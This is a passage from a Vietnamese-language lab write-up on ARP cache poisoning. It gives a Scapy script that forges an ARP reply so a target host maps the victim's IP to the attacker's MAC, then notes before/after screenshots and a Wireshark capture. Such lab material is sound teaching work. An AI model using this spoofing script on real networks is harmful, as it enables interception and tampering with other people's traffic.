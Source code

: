 ![](https://i.imgur.com/rOIyr5V.png)

![](https://i.imgur.com/976Zbms.png)

![](https://i.imgur.com/Ii7VERu.png)

---
### Task 1.B: Sử dụng ARP reply <a name="t1.b"></a>

> **Trường hợp 1: B (Victim) đã có trong ARP table của A (target)**

Tương tự task 1.A, trước hết chúng ta phải thiết lập lại ARP table ở A, sau đó, chúng ta sẽ code đoạn script sau để gửi đi gói ARP reply, trường arp.op sẽ gán = 2 để chỉ định gói tin reply:

```python=
#!/usr/bin/env python3
from scapy.all import *

attackerMAC = "02:42:0a:09:00:69"
targetMAC = "02:42:0a:09:00:05"
targetIP = "10.9.0.5"
victimIP = "10.9.0.6"

eth = Ether()
arp = ARP()

eth.src = attackerMAC 
eth.dst = targetMAC

arp.op = 2 #op = 1 for arp request, op = 2 for arp reply
arp.psrc = victimIP
arp.hwsrc = attackerMAC
arp.pdst = targetIP
arp.hwdst = targetMAC

packet = eth/arp

sendp(packet)
```

![](https://i.imgur.com/L3h70E5.png)

Before:
![](https://i.imgur.com/83skXvq.png)

After:
![](https://i.imgur.com/6fFh6j2.png)

Thành công thay đổi ARP cache tại host A với vai trò là target. Chúng ta sẽ quan sát kết quả của wireshark:

![](https://i.imgur.com/CN1ZVaW.png)
